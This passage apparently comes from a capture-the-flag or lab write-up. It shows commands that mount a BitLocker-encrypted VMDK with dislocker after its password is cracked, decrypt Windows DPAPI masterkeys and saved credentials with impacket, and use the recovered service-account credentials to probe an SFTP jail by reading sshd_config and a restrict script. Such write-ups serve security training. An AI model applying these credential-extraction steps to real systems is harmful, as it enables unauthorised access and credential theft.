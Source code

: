 Alternatively, you can also perform all these steps from Linux. After cracking the password, we can mount the image (thanks @NLTE):

```
modprobe nbd
qemu-nbd --connect=/dev/nbd0 /root/file02.vmdk
mkdir /mnt/bitlocker
mkdir /mnt/windows
dislocker-fuse -V /dev/nbd0p3 -u /mnt/bitlocker
mount -o ro /mnt/bitlocker/dislocker-file /mnt/windows
```

At this point impacket can be used to decrypt the credential:

```
dpapi.py masterkey -file bb3025a7-e7d7-405e-bb83-13113f771deb -key '...'
dpapi.py credential -file FB28D44A1080F4C10BF3530DD6D7B9E1 -key '...'
```

The key for the first line is obtained from `pypykatz - LSA DPAPI secret`, the one in the second line (the decrypted master key) is the result from the first command.

### SFTP

With these new credentials, we attempt to SSH into the Linux machine. Unfortunately this hangs. The backup script showed that this user might be used for SFTP so there could be restrictions in place, preventing it from logging into an interactive SSH session. SFTP however works:

```
sftp svc_backup@odori.vl

Connected to odori.vl.
sftp>
```

We grab sshd_conf to check for restrictions and note that a particular command is used to jail the user:

```
sftp> cd /etc/ssh
sftp> get sshd_config
...
Match group svc_backup
	#ChrootDirectory /backup
	ForceCommand /opt/restrict /home/%u
	AllowTcpForwarding no
```

We also grab this "restrict" script and read it:

```
sftp> cd /opt
sftp> ls -la
drwxr-xr-x    3 root     root         4096 Jan 11 19:44 .
drwxr-xr-x   21 root     root         4096 Jan 11 19:42 ..
drwxr-xr-x    3 root     root         4096 Jan 11 19:42 archiver
-rwxrwxr-x    1 svc_backup root           48 Jan 11 19:44 restrict
...
```
